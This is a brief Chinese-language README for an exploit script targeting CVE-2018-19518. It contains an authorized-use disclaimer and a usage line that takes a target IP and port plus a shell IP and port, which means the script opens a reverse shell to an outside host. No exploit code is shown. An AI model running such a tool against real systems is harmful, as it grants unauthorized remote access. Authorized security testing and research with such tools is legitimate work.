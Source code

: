 # CVE-2018-19518

## 免责声明

**本程序应仅用于授权的安全测试与研究目的，请使用者遵照网络安全法合理使用。**

**使用者使用该工具出现任何非法攻击等违法行为，与作者无关。**

## 使用

``` python
python CVE-2018-19518.py 目标ip 目标port shell-ip shell-port
```

![](README.assets/test.png)
